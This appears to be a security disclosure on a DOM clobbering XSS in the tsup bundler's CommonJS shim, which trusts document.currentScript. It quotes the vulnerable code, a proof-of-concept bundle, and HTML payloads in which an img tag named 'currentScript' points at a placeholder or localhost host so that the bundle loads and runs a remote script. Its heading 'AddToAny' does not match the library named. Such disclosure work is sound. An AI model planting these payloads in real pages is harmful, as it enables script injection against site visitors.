 ## AddToAny

### Meta

+ Library: tsup
+ Stars: N/A
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Security Policy: Requested
+ Foundby: TheHulk

### Library

URL: https://github.com/egoist/tsup

Bundlers run locally

### Vulnerable Code Snippet

```javascript
// node_modules/tsup/assets/cjs_shims.js
var getImportMetaUrl = () => typeof document === "undefined" ? new URL(`file:${__filename}`).href : document.currentScript && document.currentScript.src || new URL("main.js", document.baseURI).href;
var importMetaUrl = /* @__PURE__ */ getImportMetaUrl();
```

## PoC

as an example, bundle the js below.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="dist/index.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```

